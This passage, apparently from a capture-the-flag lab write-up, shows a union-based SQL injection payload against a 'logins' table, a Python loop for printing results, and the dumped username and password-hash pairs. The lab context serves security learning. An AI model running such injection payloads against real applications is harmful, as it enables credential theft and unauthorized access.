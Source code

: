 …

\[

 {

 "email": "4",

 "id": 1,

 "name": "aldom",

 "position": "9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739",

 "src": "5"

 },

 {

 "email": "4",

 "id": 1,

 "name": "alyx",

 "position": "fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa",

 "src": "5"

 },

…

\]

To make it return just the name and position fields, we can alter the script to just return the username and password fields. So the print code would be

for resp in json\_response:

 print\(f"{resp\['name'\]}:{resp\['position'\]}"\)

And this returns:

&gt; a' union select 1,username,password,4,5 from logins-- -

aldom:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739

alyx:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa

ckane:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813

cyork:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739

egre55:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
